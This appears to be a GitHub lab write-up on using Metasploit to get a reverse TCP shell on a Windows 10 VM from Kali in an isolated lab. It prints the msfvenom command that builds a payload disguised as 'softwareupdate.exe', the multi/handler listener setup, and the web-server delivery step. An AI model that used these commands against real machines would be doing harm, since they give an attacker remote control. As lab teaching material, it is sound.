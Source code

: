 # Reverse TCP Shell Using Metasploit 

## Objective

In this lab, I will exploit a Windows 10 system using the Metasploit Framework on Kali Linux. By doing so, I will have near-complete access to the victim machine through a reverse TCP shell. Once the shell is established, I will then demonstrate the ability to read directories and files on the target machine. 

The steps below can be followed in order to achieve the same results. 

### Skills Learned

- Networking Concepts
- Metasploit Framework 
- Post-Exploitation Techniques
- Payload Creation

### Project Enviroment Details
- Machine A is a Kali Linux VM.
- Machine B is a Windows 10 VM.
- For testing purposes both machines are on the same network (10.0.2.0/24).
- For testing purposes antivirus will be disabled.
- For testing purposes the Windows 10 firewall is disabled.

# Steps

## Determining the Attacking Machine's IP Address
Before creating the payload, I need to make a note of my Kali system's IP address. By using the command "ifconfig", I am able to quickly view network interface information. I need to gather the IP address of the attacking machine because it is used in the command for the malicious payloads creation. 

![Kali IP Photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/02c180ec-a0d8-4b74-a74d-e2509063e0a3)

You can see above that the IP address for Machine A is "10.0.2.15".

## Payload Creation
Now that the IP address is identified, I need to create the executable payload that will be used to establish the reverse TCP shell. In order to do so, I can use the Metasploit's "msfvenom" command. Msfvenom is a metasploit command that allows users to create custom payloads for their targets. 

Our target machine is a Windows 10 system so I will be using Msfvenom's Windows Reverse Shell Command. The command is as follows: "msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win -f exe LHOST=10.0.2.15 LPORT=4444 -o /home/kali/softwareupdate.exe"

![Msfvenom_payload creation](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/404ad24e-66ce-47cf-b56c-1106d451fa5a)

The command is comprised of multiple components that specify exactly what executable payload I want to create. In this instance, I want msfvenom to create an  windows executable file to establish the reverse tcp shell connection.

Command Components:
- "-p windows/meterpreter/reverse_tcp" specifies that I want to create a meterpreter reverse TCP shell.
- "-a x86 --platform win" specifies the architecture and platform I want the payload generated for.
- LHOST is where I input my attacking machines IP Address.
- LPORT's purpose is to specify what port the attacking machine should listen on for when the victim machine runs the executable.
- "/home/kali/softwareupdate.exe" specifies the install location and file name.

## Establishing a listener
With the payload created and installed to my specified path "/home/kali", I need to create a listener before launching my attack. A listener is a key component in my reverse shell attack. The listener's role is to wait for the incoming connection from the target machine once its been compromised. Once the listener picks up the target machines signal, the session will be opened. 

![msfconsole photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/1270309f-345b-4cbe-babe-b3c21d5cd836)

Using the "msfconsole" command, metasploit's console will be launched. 

Once the console finishes loading, I can begin creating the listener using metasploit's generic payload handling commands. 

The following commands need to be entered in the console to create the listener:

- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.0.2.15
- set LPORT 4444
- run

![awaiting connection photo 2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/b1edd722-11ae-49c9-b932-3218328653a0)

I can easily see my listener is active once the "[*] Started reverse TCP handler on 10.0.2.15:4444" is shown. 

## Delivery
Now that the malicious payload was created and the listener is active, I need to get my payload to the target machine. For this project I will be hosting the executable file on a web server using apache. Apache will accept an HTTP request from the target machine and send the malicious executable. Ordinarily the delivery can be done through social engineering, phishing emails, and USB drop attacks. 

![starting apache2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/04bf87a0-714a-4463-9980-485b14405710)






## Reverse TCP Shell
A reverse TCP shell is a type of shell session initiated by the target machine connecting back to the attacker's machine. By initiating a reverse TCP shell, the attacker will gain remote control over the compromised system. This allows the attacker capabilities to execute commands on the target machine and even transfer of data between both macines. 



 


